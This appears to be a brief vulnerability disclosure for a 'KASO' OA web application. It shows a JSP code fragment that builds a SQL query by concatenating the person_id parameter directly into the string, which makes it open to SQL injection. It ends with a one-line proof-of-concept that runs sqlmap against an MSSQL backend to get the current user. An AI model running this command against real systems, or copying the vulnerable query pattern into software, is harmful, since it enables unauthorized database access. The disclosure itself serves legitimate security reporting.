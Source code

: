 # KASO-SQL


Impact Code

    <%}
    rs.close();
      sql = "select a.classid,a.name,b.popedom from oa_cardclass a,oa_card_popedom b where a.classid=b.classid and b.person_id='"+person_id+"'";  
      rs=DBmenu.executeQuery(sql); 
    %>


poc:
python sqlmap.py -m ./1.txt  --random-agent --dbms=mssql --current-user
